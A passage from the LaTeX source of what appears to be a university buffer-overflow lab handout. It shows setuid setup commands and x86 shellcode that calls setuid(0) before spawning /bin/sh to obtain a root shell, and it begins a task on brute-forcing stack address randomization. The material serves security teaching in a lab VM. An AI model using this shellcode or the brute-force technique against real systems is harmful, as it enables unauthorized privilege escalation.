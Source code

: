 The above program can be compiled and set up using the following 
commands (we need to make it root-owned \setuid program):

\begin{lstlisting}
$ gcc dash_shell_test.c -o dash_shell_test
$ sudo chown root dash_shell_test
$ sudo chmod 4755 dash_shell_test
\end{lstlisting}


From the above experiment, we will see that 
\texttt{seuid(0)} makes a difference.  Let us add the assembly 
code for invoking this system call at the beginning of our shellcode, before 
we invoke \texttt{execve()}. 


\begin{lstlisting}
char shellcode[] =
  "\x31\xc0"            /* Line 1: xorl     %eax,%eax   */
  "\x31\xdb"            /* Line 2: xorl     %ebx,%ebx   */
  "\xb0\xd5"            /* Line 3: movb     $0xd5,%al   */
  "\xcd\x80"            /* Line 4: int      $0x80       */
 // ---- The code below is the same as the one in Task 2 ---
  "\x31\xc0"         
  "\x50"             
  "\x68""//sh"       
  "\x68""/bin"       
  "\x89\xe3"         
  "\x50"             
  "\x53"             
  "\x89\xe1"         
  "\x99"             
  "\xb0\x0b"         
  "\xcd\x80"         
\end{lstlisting}


The updated shellcode adds 4 instructions: (1) set \texttt{ebx} to zero in Line 2, (2) set
\texttt{eax} to \texttt{0xd5} via Line 1 and 3 (\texttt{0xd5} 
is \texttt{setuid()}'s system call number), and (3) execute the
system call in Line 4. Using this shellcode, we can attempt the attack on the vulnerable
program when \texttt{/bin/sh} is linked to \texttt{/bin/dash}. Using the above shellcode 
to modify \texttt{exploit.c} or \texttt{exploit.py}; try the attack from Task 2 again and see
if you can get a root shell. 
Please describe and explain your results.



\subsection{Task 4: Defeating Address Randomization}

On 32-bit Linux machines, stacks only have 19 bits of entropy, which means the stack base
address can have $2^{19} = 524,288$ possibilities.  This number is not that high and can be
exhausted easily with the brute-force approach. In this task,
we use such an approach to defeat the address randomization countermeasure 
on our 32-bit VM. 
First, we turn on the Ubuntu's address randomization using the 
following command.  We run the same attack
developed in Task 2. Please describe and explain your observation.

